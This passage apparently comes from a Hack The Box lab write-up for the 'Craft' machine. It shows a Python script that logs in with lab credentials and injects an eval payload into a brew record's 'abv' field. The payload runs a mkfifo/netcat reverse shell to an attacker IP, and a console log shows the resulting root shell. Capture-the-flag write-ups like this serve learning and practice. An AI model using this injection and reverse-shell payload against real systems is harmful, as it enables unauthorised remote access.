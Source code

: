 Here's the modified `test.py` script with the payload to call our reverse shell.

```python
#!/usr/bin/env python

import requests
import json

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

payload = """__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 4444 >/tmp/f") """

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
# create a sample brew with real shell code... should exploit!
print("Create exploit brew!")
brew_dict = {}
brew_dict['abv'] = payload
brew_dict['name'] = 'bullshit199iii1'
brew_dict['brewer'] = 'bullshit1991'
brew_dict['style'] = 'bullshi1991t'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
```

When we run the script with our sexy little payload we catch a reverse shell, and gain our initial foothold.

```console
root@kali:/media/sf_Research# nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.186] from craft.htb [10.10.10.110] 35703
/bin/sh: can't access tty; job control turned off
/opt/app # whoami
root
/opt/app # cd /
/ # ls -la
total 64
drwxr-xr-x    1 root     root          4096 Feb 10  2019 .
drwxr-xr-x    1 root     root          4096 Feb 10  2019 ..
-rwxr-xr-x    1 root     root             0 Feb 10  2019 .dockerenv
...
...
...
/ #
```

## User Flag
It looks like we're in a docker container, so we need to escape that somehow. Under `/opt/app` we see a file named `dbtest.py`. Here are the contents of that file.
